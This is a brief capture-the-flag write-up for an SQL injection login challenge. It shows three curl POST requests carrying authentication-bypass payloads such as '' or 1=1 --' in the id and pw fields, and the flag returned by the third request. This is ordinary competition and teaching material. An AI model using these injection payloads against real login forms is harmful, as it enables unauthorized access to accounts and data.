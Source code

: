 ```yaml
---
created: 2024-06-11T01:17
updated: 2024-06-11T01:29
---
```


# SQLogin

Seems like the usual SQL injection

## Try 1

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=admin" \
     --data-urlencode "pw=' or 1=1 --"
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/77ff3c96de112411090d43bcc2c3c6f0.png)

Hrmm

## Try 2

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1=1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/4c5ea675746c69118ca3c5b4c3730586.png)

## Try 3

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083750/2024/06/e785ec99d6acc52091341ee433906d6c.png)

```text
Login Success!
Flag is CDDC22{Th1s_i5_51mp1e_SQL_inj3ct10n}
```

erm, was this supposed to happen?
